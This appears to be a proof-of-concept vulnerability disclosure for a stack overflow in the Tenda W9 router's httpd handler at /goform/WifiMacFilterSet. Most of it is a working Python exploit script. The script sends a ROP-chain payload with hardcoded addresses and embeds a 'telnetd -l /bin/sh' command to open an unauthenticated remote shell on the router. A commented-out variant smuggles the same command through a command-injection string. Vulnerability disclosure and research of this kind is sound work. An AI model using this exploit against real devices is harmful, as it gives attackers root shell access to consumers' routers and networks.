 # Tenda W9 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formWifiMacFilterSet` function, which can be accessed via the URL `/goform/WifiMacFilterSet`

![1](./1.jpg)





When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)
        #print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #payload='b'*0x10+"pingaaaaaaaaaa||telnetd -p 3333 -l /bin/sh ||echo aaa"+'b'*0x3d+p32(0x11111111)+p32(0x77df8000+0x060320)+p32(0x4B43A0)
    payload='b'*0x13f+p32(0x77df7000+0x7FFF0)+p32(0x77df7000+0x054C18)+p32(0x77df7000+0x080118)*4
    payload+='a'*32+p32(0x77df7000+0x60320)*2+p32(0x22222222)*3+p32(0x77df7000+0x19204)+p32(0x22222222)*6+'telnetd -p 3334 -l /bin/sh      '   
    ip = '192.168.0.254'  
    # 构造http数据包

    pdata = {
        'filterMode':'bbbb',
        'ssidIndex'  :   payload #0x004b4000

        }

    header = {
        'Cookie'        : 'w9v1_user=admin;',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/WifiMacFilterSet', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)




```





![poc1](./poc1.jpg)

![poc2](./poc2.jpg)

